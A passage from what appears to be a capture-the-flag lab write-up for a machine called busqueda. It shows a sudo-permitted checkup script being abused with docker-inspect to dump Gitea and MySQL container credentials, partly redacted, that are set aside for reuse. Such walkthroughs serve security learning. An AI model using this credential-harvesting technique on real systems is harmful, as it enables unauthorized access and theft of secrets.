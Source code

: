 ```bash

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

```

We notice the `/opt/scripts/system-checkup.py` can be ran by root. By playing around with this script, we managed to pull out data from the running docker instances.

The Gitea instance:

```bash
svc@busqueda:~$ sudo -u root  /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS              PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   3 months ago   Up About a minute   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   3 months ago   Up About a minute   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

svc@busqueda:~$ sudo -u root  /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
--format={"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=y**REDACTED**h","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],...}}
```

We can do the same for the MySQL container:

```bash
svc@busqueda:~$ sudo -u root  /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' f84a6b33fb5a
--format={"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=j**REDACTED**F","MYSQL_USER=gitea","MYSQL_PASSWORD=y**REDACTED**h","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",...}}

```

We gained some more credentials we might be able to reuse later:
```
"GITEA__database__NAME=gitea",
"GITEA__database__USER=gitea",
"GITEA__database__PASSWD=y**REDACTED**h"
"MYSQL_ROOT_PASSWORD=j**REDACTED**F",
"MYSQL_USER=gitea",
"MYSQL_PASSWORD=y**REDACTED**h",
"MYSQL_DATABASE=gitea"
```
